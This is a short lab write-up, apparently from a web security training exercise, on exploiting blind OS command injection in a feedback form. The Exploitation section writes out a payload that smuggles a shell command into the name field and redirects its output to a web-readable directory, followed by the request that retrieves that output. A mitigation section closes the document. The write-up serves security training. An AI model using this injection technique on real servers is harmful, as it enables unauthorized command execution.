



# Lab - 03: Blind OS command injection with output redirection

## Challenge Description
The application is vulnerable to blind OS command injection in the feedback function. While we cannot see the output directly, we can write the output to a file in a writable directory (`/var/www/images/`) and retrieve it via the image-loading feature.

## Methodology
1. **Infiltration:** Inject a command that redirects output to the web-accessible directory: `whoami > /var/www/images/test.txt`.
2. **Exfiltration:** Access the newly created file by requesting it through the gallery's filename parameter.

## Exploitation
**Step 1:** Submit feedback with the payload:
`name=test1; $(whoami > /var/www/images/test.txt);#`

**Step 2:** Request the file:
`GET /image?filename=test.txt`

The response returned the current system user.

# Screenshots

## Mitigation
- Restrict write permissions for the web server user to only specific, necessary directories.
- Neutralize shell metacharacters before processing user-supplied input.